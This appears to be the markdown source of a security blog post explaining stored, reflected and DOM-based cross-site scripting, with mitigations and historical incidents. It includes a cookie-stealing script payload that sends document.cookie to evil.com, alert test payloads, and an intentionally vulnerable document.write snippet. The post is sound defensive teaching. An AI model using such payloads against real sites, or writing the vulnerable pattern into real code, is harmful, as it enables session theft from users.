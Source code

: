 ```yaml
---

title: "Cross-Site Scripting (XSS): OWASP Top 10 \& Real-World Exploitation"

date: 2025-07-24

layout: post

tag: \[OWASP, Web Security, XSS]

---
```




<div style="display: flex; gap: 30px; align-items: flex-start; margin-bottom: 30px;">



\&nbsp; <!-- Table of Contents -->

\&nbsp; <div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">



\&nbsp;   <strong>Table of Contents</strong>



\&nbsp;   <ul>

\&nbsp;     <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>

\&nbsp;     <li><a href="#types-of-xss">Types of XSS</a>

\&nbsp;       <ul>

\&nbsp;         <li><a href="#1-stored-xss">1. Stored XSS</a></li>

\&nbsp;         <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>

\&nbsp;         <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>

\&nbsp;       </ul>

\&nbsp;     </li>

\&nbsp;     <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>

\&nbsp;     <li><a href="#real-world-examples">Real-World Examples</a></li>

\&nbsp;     <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>

\&nbsp;     <li><a href="#conclusion">Conclusion</a></li>

\&nbsp;     <li><a href="#references">References</a></li>

\&nbsp;   </ul>



\&nbsp; </div>

</div>



\## What is Cross-Site Scripting (XSS)?



Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the \[OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.



---



\## Types of XSS



\### 1. Stored XSS



\*\*Definition:\*\*  

Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.



\*\*How it works:\*\*

1\. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.

2\. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.

3\. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.



\*\*Example payload \& Mitigation:\*\*

<script>fetch('https://evil.com?cookie=' + document.cookie)</script>  

Mitigation: Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).



---



\### 2. Reflected XSS



\*\*Definition:\*\*  

Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.



\*\*How it works:\*\*

1\. Attacker crafts a malicious link containing JavaScript code in a parameter.

2\. Victim clicks the link and sends a request to the vulnerable application.

3\. The application reflects the malicious input in its response, which the browser executes.



\*\*Example payload \& Mitigation:\*\*

https://example.com/search?q=<script>alert('XSS')</script>  

Mitigation: Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.



---



\### 3. DOM-Based XSS



\*\*Definition:\*\*  

DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.



\*\*How it works:\*\*

1\. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.

2\. The vulnerable JavaScript code inserts this data directly into the page without escaping.

3\. The browser executes the malicious code.



\*\*Example vulnerable code, attack URL \& Mitigation:\*\*

document.write(location.hash);  

Attack URL: https://example.com/page#<script>alert('XSS')</script>  

Mitigation: Avoid dangerous DOM manipulation methods like document.write() and innerHTML with untrusted data; use safe DOM APIs like textContent or setAttribute(); sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.



---



\## How XSS Attacks Work



1\. \*\*Injection:\*\* The attacker injects malicious JavaScript into a vulnerable page.

2\. \*\*Execution:\*\* The victim’s browser renders the page and runs the script.

3\. \*\*Impact:\*\* The attacker can steal session cookies, perform actions as the user, or spread malware.



---



\## Real-World Examples



\- \*\*MySpace Samy Worm (2005):\*\* A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.

\- \*\*British Airways Breach (2018):\*\* Malicious JavaScript was injected to steal payment details from thousands of customers.



---



\## General Mitigation Strategies



\- Validate and sanitize all user inputs on both client and server.

\- Use context-specific output encoding.

\- Enforce a strong Content Security Policy (CSP).

\- Avoid unsafe JavaScript functions and DOM manipulation methods.

\- Use security features provided by frameworks.

\- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.



---



\## Conclusion



XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.



---



\## References



\- \[OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)

\- \[PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

\- \[Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)

```




